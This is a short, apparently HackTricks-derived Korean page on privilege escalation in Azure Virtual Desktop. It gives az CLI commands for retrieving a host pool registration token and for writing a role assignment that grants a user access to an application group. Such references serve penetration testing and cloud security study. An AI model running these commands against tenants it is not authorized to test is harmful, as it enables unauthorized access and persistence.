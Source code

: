 # Az - Virtual Desktop Privesx

{{#include ../../../banners/hacktricks-training.md}}

## Azure Virtual Desktop Privesc

Azure Virtual Desktop에 대한 자세한 내용은 다음을 확인하세요:

{{#ref}}
../az-services/az-virtual-desktop.md
{{#endref}}


### `Microsoft.DesktopVirtualization/hostPools/retrieveRegistrationToken/action`
호스트 풀 내에서 가상 머신을 등록하는 데 사용되는 등록 토큰을 검색할 수 있습니다.
```bash
az desktopvirtualization hostpool retrieve-registration-token -n testhostpool -g Resource_Group_1
```
### Microsoft.Authorization/roleAssignments/read, Microsoft.Authorization/roleAssignments/write

> [!WARNING]
> 이러한 권한을 가진 공격자는 이보다 훨씬 더 위험한 일을 할 수 있습니다.

이 권한을 사용하면 가상 데스크톱의 가상 머신에 접근하는 데 필요한 애플리케이션 그룹에 사용자 할당을 추가할 수 있습니다:
```bash
az rest --method PUT \
--uri "https://management.azure.com/subscriptions/<SUBSCRIPTION_ID>/resourceGroups/<RESOURCE_GROUP_NAME>/providers/Microsoft.DesktopVirtualization/applicationGroups/<APP_GROUP_NAME>/providers/Microsoft.Authorization/roleAssignments/<NEW_ROLE_ASSIGNMENT_GUID>?api-version=2022-04-01" \
--body '{
"properties": {
"roleDefinitionId": "/subscriptions/<SUBSCRIPTION_ID>/providers/Microsoft.Authorization/roleDefinitions/1d18fff3-a72a-46b5-b4a9-0b38a3cd7e63",
"principalId": "<USER_OBJECT_ID>"
}
}'
```
사용자가 데스크탑이나 앱에 접근할 수 있으려면, VM에 대해 `Virtual Machine User Login` 또는 `Virtual Machine Administrator Login` 역할이 필요합니다. 

{{#include ../../../banners/hacktricks-training.md}}
